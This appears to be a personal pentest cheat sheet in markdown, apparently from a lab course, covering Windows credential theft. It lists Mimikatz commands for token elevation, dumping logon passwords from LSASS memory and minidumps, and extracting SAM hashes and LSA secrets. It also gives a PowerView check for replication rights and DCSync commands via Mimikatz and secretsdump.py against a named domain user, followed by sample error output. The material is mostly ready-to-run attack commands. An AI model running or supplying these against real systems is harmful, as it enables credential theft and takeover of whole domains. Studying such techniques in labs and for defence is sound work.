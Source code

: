

abuse for sedebug (gain system)
```
token::elevate
```


`AD Credentails for logged-on users`, stored in memmory
```
sekurlsa::logonpasswords
```
- `sekurlsa` = dump credentials from LSASS memory (logged-in/cached users).
- `lsadump::sam` this is for `local accounts` = dump full SAM hashes from disk (requires SYSTEM).
**`lsadump::lsa`** `dumps lsa secrets: dpapi, vpn creds`

`switch to mini dump mode and supply dmp file`:
```cmd-session
sekurlsa::minidump lsass.dmp
```

`dump memmory`:
```cmd-session
 # sekurlsa::logonpasswords
```

`::msv`
### for Extracting Kerberos Tickets

##  for DCsync 
`requires sereplication privilege, check for that acl type`
```
$SID = Convert-Name-TO-SID <name>
get-domainobjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $SID}
```

#dcsyncing
```
./mimikatz.exe

# lsadump::dcsync /domain:{} /user:{domain\targetuser} 

```

# dcsync linux
```
 secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/tpetty@172.16.6.3
```

### common issues
1. you dont have sufficient privileges
```
mimikatz # lsadump::sam
Domain : WINLPE-SRV01
SysKey : e64931232d19f5290583852df985915c
ERROR kull_m_registry_OpenAndQueryWithAlloc ; kull_m_registry_RegOpenKeyEx KO
ERROR kuhl_m_lsadump_getUsersAndSamKey ; kull_m_registry_RegOpenKeyEx SAM Accounts (0x00000005)

mimikatz # lsadump::lsa
ERROR kuhl_m_lsadump_lsa ; SamConnect c0000022

mimikatz # lsadump::sam
Domain : WINLPE-SRV01
SysKey : e64931232d19f5290583852df985915c
ERROR kull_m_registry_OpenAndQueryWithAlloc ; kull_m_registry_RegOpenKeyEx KO
ERROR kuhl_m_lsadump_getUsersAndSamKey ; kull_m_registry_RegOpenKeyEx SAM Accounts (0x00000005)

mimikatz # lsadump::secrets
Domain : WINLPE-SRV01
SysKey : e64931232d19f5290583852df985915c
ERROR kuhl_m_lsadump_secretsOrCache ; kull_m_registry_RegOpenKeyEx (SECURITY) (0x00000005)
```